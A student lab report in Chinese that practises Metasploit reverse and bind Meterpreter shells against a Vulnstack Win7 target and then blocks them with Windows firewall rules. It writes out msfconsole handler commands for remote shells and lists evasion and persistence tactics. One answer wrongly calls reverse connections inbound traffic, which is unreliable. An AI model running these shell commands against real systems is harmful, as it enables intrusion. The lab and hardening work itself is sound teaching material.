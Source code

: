 # 渗透测试实验报告 - 正反向Shell攻防实践
### 目标机为vulnstack-win7,攻击机为kali
 实验信息

· 实验名称: 基于MSF的正反向Shell攻防实践

· 实验日期: 2025-10-28

· 实验环境: Kali Linux (攻击机) + Vulnstack-Win7 (靶机)

一、实验目的

1. 掌握MSFVenom工具生成定制化有效负载的方法
2. 理解正向Shell与反向Shell的本质区别及适用场景
3. 学习通过防火墙规则配置进行主机安全加固
4. 分析不同网络环境下的Shell连接策略选择

二、实验环境

角色 系统 IP地址 备注
攻击机 Kali Linux 192.168.1.10 渗透测试平台

目标机 Windows 7 192.168.1.20 Vulnstack漏洞环境

三、实验步骤

任务1：环境准备

· 下载并安装Vulnstack-Win7漏洞环境

· 确保攻击机与目标机网络连通性

任务2：生成有效负载
1. 生成反向TCP Shell<br>
(1)：打开kali终端，执行命令生成payload
![生成payload](payload.png)
(2)查询目标机ip及开放端口
![目标机ip和开放端口](cxkfdk.png)
2. 生成正向TCP Shell
![正向TCP Shell](zxtcp.png)
3. 配置Metasploit/multi/handler模块<br>
(1)启动msfconsole,加载反向Shell监听模块


```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 7777
exploit
```
![启动msfconsole](msfconsole.png)
加载反向shell
![加载反向shell](fxshell.png)
配置正向Shell连接

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST 192.168.1.20
set LPORT 7777
exploit
```
# 对目标windows主机进行安全加固
### 创建入站阻止规则
 
1. 进入win7 虚拟机

2. 点击入站规则→新建规则，选择“端口”→“TCP”→输入需阻止的端口→选择“阻止连接”→应用到“域、专用、公用”所有配置文件→命名规则。
![设置入站规则](rzgz.png)
### 创建出站阻止规则
 
1. 点击出站规则→新建规则，重复上述步骤，阻止相同端口的出站连接。
![设置出站规则](czgz.png)

防御效果验证

· 执行生成的Shell程序

· 验证正向/反向Shell均无法建立连接

· 记录防火墙拦截日志

正向超时

![正向超时](zxcs.png)

反向超时

![反向超时](fxcs.png)
实验结果与分析

1. 正反向Shell对比

反向Shell 目标机→攻击机 目标机有公网IP或出站限制宽松 绕过入站防火墙，需要攻击机有固定IP

正向Shell 攻击机→目标机 目标机无出网权限或内网环境 依赖目标机开放端口，易被入站规则拦截

防御效果验证结果

· 加固前: 正反向Shell均能成功建立连接

· 加固后:
  · 反向Shell被出站规则阻断

  · 正向Shell被入站规则阻断

结论: 防火墙规则配置有效防御了本次攻击
# 在真实的渗透测试中，什么场景下更适合使用反向Shell?什么场景下更适合使用正向Shell？
### 更适合反向Shell：
  1. 目标主机位于内网，无公网IP
  攻击者无法主动连接目标，只能让目标主动“反弹”连接攻击者的公网监听端口。
  2. 目标主机出站流量未被严格限制
  即使目标主机入站端口被封，只要它能访问外网（如DNS、HTTP等），就可以通过反向shell建立连接。
  3. 绕过防火墙或IPS/IDS设备
  反向shell可以通过常见端口（如80、443）或加密通道（如HTTPS、DNS隧道）伪装流量，降低被检测的风险。
  4. 目标主机存在命令执行漏洞，但无法上传文件或开启服务
  此时可通过一句话反弹命令（如bash、python、perl等）直接获取shell，无需上传木马。<br>
### 更适合正向Shell：
  1. 目标主机拥有公网IP，且端口可访问
  攻击者可以直接连接目标主机的开放端口（如通过漏洞上传木马并监听端口）。
  2. 目标主机处于攻击者同一内网中
  如内网横向渗透阶段，攻击者已通过跳板机进入内网，可直接连接目标主机的正向shell。
  3. 目标主机出网受限（如仅允许特定白名单IP出站）
此时反向shell无法成功回连，只能尝试正向连接
  4. 需要长期维持访问，且目标主机稳定在线
  正向shell可结合自启动、计划任务等方式实现持久化，适合控制服务器类目标。

  
# 仅通过配置出站规则，能否有效防御所有反向链接？为什么？
仅配置出站规则不能有效防御所有反向链接
1. 出站规则无法控制入站流量  
出站规则仅对内部主机主动发起的连接生效，而反向链接（reverse connection）是外部主机主动连接到内部主机，属于入站流量。
2. 出站规则只能限制部分反向连接行为，但无法防御所有类型的反向链接，尤其是在攻击者使用协议伪装、隧道技术或利用入站通道时。
# 除了基于端口的防火墙规则，还有哪些更高级的加固手段可以防御此类攻击？
1. 应用层协议识别（DPI）
- 深度包检测（DPI）技术可以分析数据包的内容，识别隐藏在合法协议（如HTTP、DNS、ICMP）中的恶意通信。
2. 行为分析与异常检测
- 基于行为建模的安全系统（如EDR、NDR）可监控主机或网络的通信行为。
3. 协议封装与隧道识别
5. 应用白名单与零信任架构
6. 网络分段与微隔离
7. 加密流量检测